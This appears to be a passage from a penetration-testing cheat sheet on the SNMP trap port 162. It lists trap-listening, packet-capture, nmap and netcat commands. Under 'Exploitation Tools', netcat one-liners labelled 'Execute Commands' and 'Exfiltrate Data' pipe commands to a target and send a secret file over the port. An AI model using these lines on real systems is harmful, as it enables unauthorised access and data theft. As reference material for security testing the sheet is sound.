 *   **SNMP Trap Receiver:** Runs a daemon to listen for SNMP traps in real-time.

    ```bash
    snmptrapd -f -Lo
    ```
*   **Filtering Traps Based on OIDs:** Filters incoming traps to only display those that match a specific OID.

    ```bash
    snmptrapd -On -f | grep <oid>
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "udp port 162"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 162
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 162
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 162 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 162
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 162 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]
